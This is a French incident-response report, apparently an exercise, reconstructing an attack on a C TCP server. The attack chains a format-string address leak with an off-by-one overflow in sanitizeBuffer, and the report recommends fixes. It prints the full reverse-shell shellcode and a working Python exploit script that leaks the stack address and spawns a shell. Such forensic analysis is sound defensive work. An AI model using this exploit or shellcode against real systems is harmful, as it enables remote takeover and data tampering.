










% Réponse à incident - Exploitation d’une vulnérabilité dans un serveur TCP/IP programmé en langage C
% Olivier Nachin & Thomas Girard
% 17/01/22

# Introduction

La société Pressoare a subi une attaque informatique : l'intégrité des données a été compromises, un déséquilibre financier a été repéré sur un des serveurs, et du trafic anormal a été détecté ! L'objectif de notre mission est de comprendre l'origine de l'attaque, la reproduire, identifier les vulnérabilités et émettre des recommendations.

# Analyse Réseaux

A l'aide de la commande *strings trace.pcap*, on repère rapidement du contenu anormal dans la trace réseau par exemple *chmod* ou bien */bin/sh*. Wireshark permet alors d'approfondir ces pistes :


*hexdump d'une des attaques*

On voit alors clairement les étapes suivi dans une de ses attaques. Il utilise tout d'abord la commande *ECHO %x% x%x%x %x* qui correspond à une attque "Format String" visant à afficher le haut de la pile. Le fait que cela ait abouti dans la trace réseau montre qu'il y a une première vulnérabilité dans le code qu'il faut approfondir (cf ci-dessous). Ensuite, l'attaquant utilise une payload qui lui permet d'obtenir un shell, d'où une deuxième vulnérabilité. L'attaquant liste ensuite les fichiers du dossier data et écrit 100 000 dans l'un d'eux : l'attaquant a ainsi modifié des données financières. Savoir quel client correspond au fichier A99883 permettrait de savoir à qui profite l'attaque et potentiellement permettre de retrouver l'identité du malfaiteur.


*Suite de l'attaque précédente*


# Analyse de la payload
## Décomposition de la payload

Grâce à la trace réseau, nous avons donc pu récupérer la payload utilisée par l’attaquant.


*hexdump de la payload utilisée par l’attaquant*

* La payload commence par 64 octets de valeur "90", ce qui correspond au *toboggan de NOP*. L’attaquant souhaite que le fil d’exécution du programme du serveur arrive dans ce toboggan afin de sauter de NOP en NOP jusqu’au code permettant d’obtenir le shell.
* Ensuite, la payload continue avec 127 octets correspondant au code permettant d’obtenir un shell (nous allons détailler cette partie dans la suite).
* Puis, un padding de 9 "A" est ajouté afin d’obtenir exactement 200 octets depuis le début de la payload (de même, nous allons expliquer pourquoi il est important d’obtenir 200 octets exactement à cet endroit de la payload).
* Il y a ensuite 14 octets restants dont nous allons détailler le rôle par la suite.

## Analyse du code assembleur permettant d’obtenir un shell

Afin d’analyser la façon dont l’attaquant a réussi à ouvrir le shell, on désassemble le code permettant de l’obtenir.


*extrait du code assembleur permettant d’obtenir le shell*

* On commence par les instructions classiques jump/call/pop qui permettent d’écrire l’adresse de la chaîne de caractères "/bin/sh" dans le registre ebp (cette adresse sera utiliée par la suite au moment de l’appel système execve).
* On a ensuite une remise à 0 d’une partie des registres.
* On remarque ensuite un appel à *mmap2*, sûrement pour se réserver un segment en mémoire avec des permissions particulières.
* On a ensuite ce qui semble être un boucle for avec un appel système à *getppeername* afin probablement d’attacher le shell à la socket utilisée par l’attaquant.
* Enfin, on trouve bien l’appel système à *execve* avec la chaîne de caractère "/bin/sh" en paramètre afin de lancer le shell.


# Faille n° 1 : format string

Il faut chercher à comprendre comment une attaque par "format string" a pu être possible à l'aide de la commande ECHO, et on dispose pour cela du code source en C. La fonction *DoEcho* du fichier *commande.c* utilise la fonction *snprintf()*, or il n'y a pas d'argument après la variable *echo*, donc lorsque l'attaquant choisit la string "%x%x%x%x %x", *snprintf()* va aller chercher 5 arguments (qui en réalité n’existent pas) à l’emplacement où ils devraient être c’est-à-dire au dessus du cadre de pile de la fonction DoEcho. Cela a ici pour conséquence de renvoyer notamment la variable *echo* dont la valeur a définie de la manière suivante : 
```C
echo = msg->safeBuffer+msg->debut;
```

Par conséquent, echo pointe vers safeBuffer + 5 octets (début est égal à 5 puisque "ECHO " fait 5 caractères). Ainsi, l’attaquant récupère, à 5 octets près, l’adresse du buffer *safeBuffer*.


*Fonction DoEcho*

Cette attaque n'est pas détectée par le serveur, malgré fonction *SanitizeBuffer()* qui génère une alerte lorsque des caractères non imprimables sont détectées. En effet, "%" est bien un caractère imprimable et l'attaque n'est pas détectée.


# Faille n° 2 : buffer overflow
## Une fonction qui copie un octet de trop...

Après avoir récupéré une adresse de la stack grâce à la faille n°1 *format string*, l’attaquant a utilisé une deuxième faille dans le code C afin de pouvoir réaliser un buffer overflow.

Afin d’éviter justement les buffer overflows, les développeurs ont choisi de créer une fonction *sanitizeBuffer* qui permet de copier l’entrée utilisateur contenue dans *unsafeBuffer* dans un buffer limité à 200 caractères *safeBuffer* et en stoppant la copie au premier au premier caractère non-imprimable trouvé. Cependant, les développeurs se sont trompés dans l’écriture de leur code ce qui permet a permis à l’attaquant d’écrire plus de 200 caractères.
En effet, si l’attaquant rentre exactement 200 caractères suivis d’un retour à la ligne "\\n", alors le code C va réaliser les actions suivantes :
* remplacement du "\\n" (0a en hexadécimal) par "\0"
* calcul de strlen(unsafeBuffer), ici le résultat de ce calcul donne 200
* copie caractère par caractère de *unsafeBuffer* dans *safeBuffer* de l’indice 0 à l’indice 201 ! (cf capture d’écran ci-dessous) Un caractère de trop a donc été copié et donc l’attaquant peut déborder de *safeBuffer*. Ce caractère copié en trop est forcément un 0 (car le 201ième caractère est un "\\n" qui a été remplacé précédemment par un "\0" et est copié dans la mémoire après *safeBuffer*.


*extrait du code C de la fonction incriminée sanitizeBuffer*

La question est donc à présent de savoir exactement où ce 0 *en trop* a été copié. Avec gdb, en utilisant notamment la commande : *print &variable*, on peut reconstituer l’état de la stack au moment du déroulement de cette boucle for.


*la commande info frame permet aussi d’avoir des indications utiles comme l’adresse de l’adresse de retour de la fonction (saved eip)*

On obtient alors le résultat suivant :


*représentation de la stack lors de l’exécution de sanitizeBuffer*

On remarque donc que c’est l’octet de poids faible de i qui va être écrasé par la valeur 0. Or i est le compteur de boucle censé limiter à 200 le nombre de caractères copiés. L’écraser va donc permettre d’écrire au moins un caractère supplémentaire. Ce qui va permettre à l’attaquant de continuer d’écraser i et ainsi d’écrire autant d’octets qu’il le souhaite ! Ainsi, on comprend pourquoi l’octet n°201 de la payload est 0a : l’attaquant feint un retour à la ligne afin d’exploiter la faille. Il continue ensuite d’écrire : 00 00 00 pour écraser totalement i, 0d 00 00 00 qui va permettre de mettre len à la valeur 13 afin de continuer d’écrire la fin de la payload et surtout de s’arrêter lorsqu’elle aura entièrement été copiée.

## Modification de l’adresse de retour de la fonction

Ensuite, c’est l’octet de valeur *8b* qui est écrit à la place de l’octet de poids faible de *\*dst*. Cette modification est tout sauf anodine. En effet, *\*dst* correspond à l’adresse en mémoire où la payload est recopiée (à cet instant, on peut d’ailleurs noter que la valeur de *\*dst* est égale à son adresse). Ainsi, en modifiant *\*dst*, l’attaquant peut choisir d’écrire là où il le souhaite dans la mémoire.\
Il serait pertinent pour lui d’écrire à l’adresse de retour de la fonction sanitizeBuffer. En effet, en remplaçant cette adresse par une adresse dans le toboggan de NOP, cela lui permettrait de déplacer le fil d’exécution du serveur vers le code lui permettant d’obtenir un shell.\
Pour cela, l’attaquant doit connaître l’adresse de l’adresse de retour de la fonction sanitizeBuffer. Bien sûr, à cause de l’ASLR, cette adresse change à chaque nouvelle exécution donc l’attaquant a besoin d’un point de repère. Pour cela, il va utiliser l’adresse retournée par la commande ECHO vue à la partie précédente sur l’attaque format string. Pour rappel, cette adresse correspond à l’adresse de sanitizeBuffer + 5. De plus, en ayant une bonne connaissance de la stack, l’attaquant sait que l’adresse de retour de sanitizeBuffer se situe 247 octets après cette adresse, il doit donc remplacer *\*dst* par l’adresse retournée par ECHO + 247. Cependant, l’attaquant n’a accès qu’à l’octet de poids faible de *\*dst*, il doit donc espérer que le deuxième octet de *\*dst* ait été incrémenté "naturellement" au cours de la recopie. C’est pour cette raison que l’attaque ne fonctionne pas à tous les coups et que sur la trace réseau on a deux attaques : la première a échoué avant que la seconde ne réussisse. On obtient donc le schéma suivant pour l’attaque : 


L’attaquant écrase donc l’adresse de retour de la fonction sanitizeBuffer avec l’adresse renvoyée par ECHO diminuée de 4 octets. Cette soustraction de 4 octets est facultative car de toute manière, en écrivant exactement l’adresse renvoyée par ECHO il serait tombé dans le toboggan de NOP tout de même. En retirant 4 octets, l’attaquant se place exactement au début du toboggan de NOP (le premier NOP a été mis à 0 grâce à la variable *eos* car c’est le premier caractère non-imprimable détecté). 

# Reproduction de l'attaque à l'aide d'un script

Nous avons reproduit l'attaque à l'aide d'un script python qui nous a permis d'ouvrir un shell. Voici notre code :


```python
#!/usr/bin/env python3
import binascii
import socket

charge_1 = '90909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090909090eb715d31c031db31c931d231ff31f6b02289c6b0c0b10166c1e10cb2034fcd8089c131ffb30289ca80c10431c066b87001fec3c602108939cd8039f875ed8b013c0275e789ca31c931c0b03fcd8041b03fcd8041b03fcd8031c0896d0889450c884507b00b89eb8d4d088d550ccd80b001cd80e88affffff2f62696e2f73684141414141414141410a0000000d000000'

HOST = '172.28.128.100'
PORT = 6000

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(b'ECHO %x % x%x%x %x \n')
    data_echo = s.recv(1024)
    print(data_echo)
    adresse = str(data_echo).split(" ")[-2] # on récupère la dernière adresse
    adresse_2 = int(adresse, 16) # on convertit l'hexa en decimal
    adresse_3 = int(adresse_2) - 10 # on retranche 10
    adresse_4 = hex(adresse_3) # on repasse en hexa
    milieu_ajout = adresse_4[-2:]
    charge_2 = charge_1+milieu_ajout
    fin_adresse = int(adresse[-2:], 16)- 4 # on convertit en decimal et on retranche 4

    charge_3 = charge_2 + hex(fin_adresse)[2:] + adresse_4[2:-2][-2:]
    charge_3 += adresse_4[2:-2][-4:-2] + adresse_4[2:-2][0:2] + "0a"

    charge_4 = binascii.unhexlify(charge_3) #on ajoute les "/x"

    s.sendall(charge_4)
    s.sendall(b'ls \n')
    data_reception = s.recv(1024)
    print(data_reception)
```

Voici ce que donne le lancement de ce code sur la machine Analyste :


*reproduction de l'attaque*

# Recommandations pour le client

Voici des recommandations pour le client afin d'améliorer sa sécurité et d'éviter à l'avenir une attaque similaire:
- Il faut  détecter "%" comme étant une tentative d'attaque "format string".
- Il faut activer le bit NX. Si la pile n'avait pas été exécutable, le shellcode n'aurait pu fonctionner. La désactivation de la pile est rendue possible par la fonction *donxoff()* de *main.c*, il faudrait enlever cette option pour améliorer la sécurité.
- Pour éviter le Buffer Overflow, il faut remplacer le "<=" en "<" dans la boucle "for" de la fonction sanitizeBuffer() ligne 55.

# Conclusion

Finalement, nous avons réussi à comprendre les étapes utilisées par l'attaquant et les vulnérabilités qu'il a exploitées. Nous avons également pu reproduire l'attaque et émettre des recommandations pour qu'une telle attaque ne soit plus possible à l'avenir.
